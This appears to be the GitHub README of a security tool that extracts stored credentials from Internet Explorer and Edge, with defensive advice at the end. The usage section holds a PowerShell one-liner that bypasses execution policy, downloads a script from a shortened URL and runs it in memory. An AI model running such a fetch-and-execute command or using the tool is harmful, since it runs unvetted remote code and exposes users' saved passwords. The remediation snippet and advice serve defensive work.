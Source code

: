 # credgrap_ie_edge

Content: Extract stored credentials from Internet Explorer and Edge

Author: Florian Hansemann | @HanseSecure | https://hansesecure.de

Date: 04/2018

## Usage
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2K75g15')"

<img src="https://raw.githubusercontent.com/HanseSecure/credgrap_ie_edge/master/image/credgrap.gif" width="40" height="40" />


## Recommendation

### Powershell Solution
[void][Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach {$vault.Remove($_)}

Thanks @nongiach for Info

### Other Solution
Don't save any passwords within your browser and use password safes ;-)

### Additionally Information
I was informed by @jaredhaight that this code was already used in the past. I Didn't know that, but i want to add the link to that post https://www.toddklindt.com/blog/_layouts/mobile/dispform.aspx?List=56f96349-3bb6-4087-94f4-7f95ff4ca81f&ID=606

I think the smaller the code, the bigger the chance to develop something 'old'.
